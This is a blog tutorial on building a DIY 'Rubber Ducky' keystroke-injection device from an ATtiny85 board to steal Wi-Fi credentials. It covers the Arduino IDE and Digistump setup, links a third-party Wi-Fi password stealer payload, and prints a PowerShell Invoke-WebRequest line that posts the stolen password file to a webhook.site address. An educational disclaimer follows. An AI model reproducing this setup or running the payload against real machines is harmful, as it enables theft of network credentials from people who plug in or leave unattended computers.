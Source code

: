 ```yaml
---
title: "DIY Rubber Ducky with ATtiny85"
date: "05-14-2022"
author: "Reda BELHAJ"
summary: "Using ATtiny85 to create a DIY Rubber Ducky"
tags: ["Diy", "Attiny85"]
image: "/images/Rubber/bg.png"
---
```


In this article, I’ll walk through how you can create a DIY Rubber Ducky and try to steal Wifi credentials send them to a webhook site.

## Requirements
* **ATtiny85** : The ATtiny85 is a microcontroller in a similar vein to the Arduino, but with much less IO pins, smaller memory and a smaller form factor.
* Download **Arduino IDE**.

## Configuration
First we need to add an **Additional Boards Manager** to the Arduino IDE. Open Arduino IDE > Goto file > preferences and then add or paste [the package digistump index file](http://digistump.com/package_digistump_index.json):

* **Link**: http://digistump.com/package_digistump_index.json

![preferences](/images/Rubber/pre.JPG)

Secondly, we need to goto tools > boards manager and install **Digistump AVR Boards**

![boards](/images/Rubber/boards.JPG)

And now we need to install **Digistump Arduino Drivers** (just the *Digistump.Drivers.zip*) through the link below:

* **Link**: https://github.com/digistump/DigistumpArduino/releases

## Payloads 
So before using one of **MTK911** payloads please make sure to read the *DISCLAIMER*:

>All the software/scripts/applications/things in this repository are provided as is, without warranty of any kind. Use of these software/scripts/applications/things is entirely at your own risk. Creator of these softwares/scripts/applications/things is not responsible for any direct or indirect damage to your own or defiantly someone else's property resulting from the use of these software/scripts/applications/things.

And now we are all setup. we just need a payload and for this example we are going to use **Wi-Fi password stealer** from **MTK911** Github Repo: 

* **Link**: https://github.com/MTK911/Attiny85/blob/master/payloads/Wi-Fi%20password%20stealer/WifiKey-Grab_Minimize-of-Shame.ino#L1

You can also test out [MTK911](https://github.com/MTK911/Attiny85)'s other payloads.

![code](/images/Rubber/code.JPG)

And after paste the payload into your IDE. Open [Webhook Sites](https://webhook.site) and make sure to copy your unique URL and :

![webhook](/images/Rubber/webhook.JPG)

Then paste the Webhook address into the code as mentioned:

```
DigiKeyboard.println("powershell Invoke-WebRequest -Uri https://webhook.site/<ADD-WEBHOOK-ADDRESS-HERE> -Method POST -InFile Wi-Fi-PASS");
DigiKeyboard.delay(1000);
```

Then Click upload on Arduino IDE. and it will copy the file to the ATtiny85 after you plug it in. And you are ready to test it out.

## Disclaimer
All the content reported in this article is for educational purposes only and we are not responsible for any use that may be made of it.